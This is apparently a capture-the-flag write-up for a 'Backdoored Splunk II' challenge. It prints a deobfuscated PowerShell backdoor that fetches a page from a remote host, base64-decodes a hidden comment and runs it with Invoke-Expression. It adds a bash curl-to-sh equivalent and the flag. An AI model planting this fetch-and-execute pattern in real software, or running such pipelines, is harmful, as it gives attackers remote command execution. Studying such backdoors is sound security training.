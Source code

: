 # Backdoored Splunk II

## Solver : `Noderyos`

In `bin/powershell/dns-health.ps1` the line 20 has been added, after deobfuscating it, we get this code
```ps1
# $PORT below is dynamic to the running service of the `Start` button
@($html = (Invoke-WebRequest http://challenge.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0")} -UseBasicParsing).Content
if ($html -match '<!--(.*?)-->') {
    $value = $matches[1]
    $command = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($value))
    Invoke-Expression $command
})
```

by replicating it in bash `curl -H 'Authorization: Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0' http://challenge.ctf.games:31766 | sed -n 's/<!-- \(.*\) -->/\1/p' | base64 -d | sh` we get the flag

## Flag : `flag{e15a6c0168ee4de7381f502439014032}`
